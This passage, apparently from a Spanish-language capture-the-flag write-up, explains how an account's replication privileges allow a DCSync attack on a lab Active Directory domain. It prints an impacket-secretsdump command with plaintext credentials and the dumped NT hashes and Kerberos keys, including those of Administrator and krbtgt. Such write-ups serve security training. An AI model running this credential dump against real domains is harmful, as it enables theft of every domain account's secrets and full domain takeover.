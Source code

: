 ![Write-up Image](images/Screenshot_7.png)

Esto significa que tenemos acceso para leer todos los atributos privilegiados y también para hacer algunas acciones especiales.

Este privilegio, nos asigna los privilegios `DS-Replication-Get-Changes` y `DS-Replication-Get-Changes-All`, esto significa que podemos replicar cualquier objeto del dominio, ergo, podemos hacer un DCSync.

Con `secretsdump` podemos dumpear el `NTDS.dit` y conseguir el Hash NT del usuario Administrador.
```console
impacket-secretsdump "control.nyx/j.levy:Password1@controller.control.nyx"
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b70cca1e5225303104dea9942d31f3a7:::
control.nyx\j.levy:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
control.nyx\b.lewis:1104:aad3b435b51404eeaad3b435b51404ee:08f37c649690b7df615961f71831ef4a:::
control.nyx\m.klein:1105:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
control.nyx\d.petrov:1106:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
control.nyx\a.hansen:1107:aad3b435b51404eeaad3b435b51404ee:48b20d4f3ea31b7234c92b71c90fbff7:::
CONTROLER$:1000:aad3b435b51404eeaad3b435b51404ee:e39a05fcea69e57068313e72b7cef96c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9a8c983c709e851258912c3b1d71c9b05faf1724f522b4f32e57f7bef3366773
Administrator:aes128-cts-hmac-sha1-96:0ca176565c5b47fda5e2ab4f53fbb9d3
Administrator:des-cbc-md5:ce9785d980c1a7f8
krbtgt:aes256-cts-hmac-sha1-96:98eaf007fcf3006a8526cba84496bffc6835fbb9f6291c4a5c467be83c10e6ac
krbtgt:aes128-cts-hmac-sha1-96:4f348630f6cf1829080f97ad008432c0
krbtgt:des-cbc-md5:6bdaae6d83f7ce08
control.nyx\j.levy:aes256-cts-hmac-sha1-96:0e6ca71073eab87d2e5195b9da28498dfa76a62f7e5d5bd22b6fb2c05677daa0
control.nyx\j.levy:aes128-cts-hmac-sha1-96:7a0a723a44a010bb3da571a16f6edefb
control.nyx\j.levy:des-cbc-md5:54918ae57a10f2bf
control.nyx\b.lewis:aes256-cts-hmac-sha1-96:b4f57e910e3bdea0ad3bdc1ad2513759f2f88eb8650f5f470ac08f9b210a2198
control.nyx\b.lewis:aes128-cts-hmac-sha1-96:7f2031c82ee5bc662dc3cd7cc3235a66
control.nyx\b.lewis:des-cbc-md5:a4132f64d5ce670b
control.nyx\m.klein:aes256-cts-hmac-sha1-96:4a793709dcdcf73950b685f896a9848e3103d5a18b01c7e5d59ba38c57b8672b
control.nyx\m.klein:aes128-cts-hmac-sha1-96:57aeb83d17ac7f9ca2a6b9237d40dc70
control.nyx\m.klein:des-cbc-md5:f19bdfdad5d3b0a1
control.nyx\d.petrov:aes256-cts-hmac-sha1-96:33fe5c70d3443ebe7ecde982ac1bd96b56827d38144666f8a6b8826950697f3a
control.nyx\d.petrov:aes128-cts-hmac-sha1-96:bc33a875e59d41c1a601fd7a2519d659
control.nyx\d.petrov:des-cbc-md5:c29d76f7b62aab92
```